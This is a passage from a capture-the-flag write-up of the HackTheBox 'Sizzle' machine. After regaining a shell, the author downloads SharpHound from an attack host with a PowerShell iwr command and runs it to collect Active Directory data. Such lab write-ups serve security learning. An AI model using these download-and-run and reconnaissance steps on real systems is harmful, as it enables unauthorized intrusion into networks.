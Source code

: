 
And now I have a full shell again:

![full-42](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/full-42.png)


At this point I enumerated the system some more, just to see if there are any new escalation vectors now that we have a shell as `mrlky`, but I didn't notice anything substantial.


So instead, I decided to get back to the AD and enumerate it instead. To do this, we can use something like [SharpHound](https://github.com/BloodHoundAD/SharpHound). 


I host the `SharpHound.exe` binary via a python web server on my attack machine and download it to the target using:

```powershell
iwr "http://10.10.14.51/SharpHound.exe" -OutFile sh.exe
```

I then run the collector script from `C:\\Windows\Temp` as such:

```powershell
./sh.exe --CollectionMethods All --OutputDirectory C:\Users\mrlky
```

The execution went well, and if we cd into `mrlky`'s home folder we can see our loot:

![loot-43](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/loot-43.png)
